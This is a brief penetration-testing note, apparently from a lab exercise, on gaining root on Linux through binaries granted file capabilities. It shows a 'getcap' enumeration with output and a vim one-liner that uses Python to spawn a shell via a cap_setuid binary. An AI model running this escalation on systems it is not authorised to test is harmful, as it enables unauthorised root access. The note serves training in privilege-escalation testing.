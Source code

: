 # Exploit capable programs

Become root on Linux via capabilities:

1. Check for capable programs
2. Leverage program

## Example: vim

To check for capable programs, use the `getcap` tool:
```text
karen@target:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

[Leverage vim](https://gtfobins.github.io/gtfobins/vim/) and execute a shell using python:

```text
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Notes

Another method system administrators can use to increase the privilege level of a process or binary is by capabilities. 
Capabilities help manage privileges at a more granular level. If a SOC analyst needs to use a tool that needs to initiate socket connections, the capabilities of the binary can be changed such that it would get through its task without needing a higher privilege user.
